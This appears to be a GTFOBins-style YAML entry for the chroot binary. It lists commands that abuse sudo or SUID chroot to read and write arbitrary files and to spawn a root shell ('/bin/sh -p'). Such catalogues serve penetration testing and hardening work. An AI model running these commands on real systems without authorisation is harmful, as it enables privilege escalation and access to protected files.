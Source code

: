```yaml
---
functions:
  read-file:
    - code: |
        LFILE="file-to-read"
        sudo chroot / cat $LFILE
  write-file:
    - code: |
        LFILE="file-to-write"
        sudo chroot / vi $LFILE
  suid:
    - code: |
        ./chroot / /bin/sh -p
  sudo:
    - code: |
        sudo chroot /
---
```

